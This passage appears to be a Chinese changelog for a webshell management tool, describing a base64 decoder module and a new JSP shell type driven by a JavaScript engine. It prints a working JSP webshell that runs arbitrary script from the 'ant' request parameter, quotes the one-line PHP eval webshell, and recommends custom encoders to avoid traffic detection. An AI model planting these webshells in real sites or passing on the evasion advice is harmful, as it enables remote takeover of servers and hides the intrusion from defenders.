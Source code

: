 * 解码器支持 CMDLinux

base64 解码器:

```js
/**
 * cmdlinux::base64解码器
 */

'use strict';

module.exports = {
  asoutput: () => {
    return `asenc(){ base64 "$@"; };` // 注意此处是 Shell 语法
  },
  decode_buff: (buff) => {
    return Buffer.from(buff.toString(), 'base64');
  }
}
```

## 2021/06/19 `v(2.1.13)`

### 核心

* 新增 JSPJS Shell 类型 (Author: @yzddMr6)

> 基于 js 引擎的 jsp 一句话类型, jdk >= 6
> 相较于 jsp defineClass 实现，该方式的数据包大小明显小了不少

设计思路请参考: https://xz.aliyun.com/t/9715

> 值得一提的是，JSPJS 类型可以通过「迂回」的方式去「直接使用」原来的 JSP 类型 WebShell, 留给大家去探索了

**请耐心看完下面的 Note**

目前该类型默认生成的 WebShell 如下:

```jsp
<%
  try {
    javax.script.ScriptEngine engine = new javax.script.ScriptEngineManager().getEngineByName("js");
    engine.put("request", request);
    engine.put("response", response);
    engine.eval(request.getParameter("ant"));
  } catch (Exception e) {
    out.println("Error:// "+e.toString());
  }
%>
```

在流量层上和 PHP 最基础的WebShell `<?php eval($_POST['ant']);?>` 一样具有明显特征，不建议使用, 请配合自定义编码器进行:

eg: b64pass 编码器


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino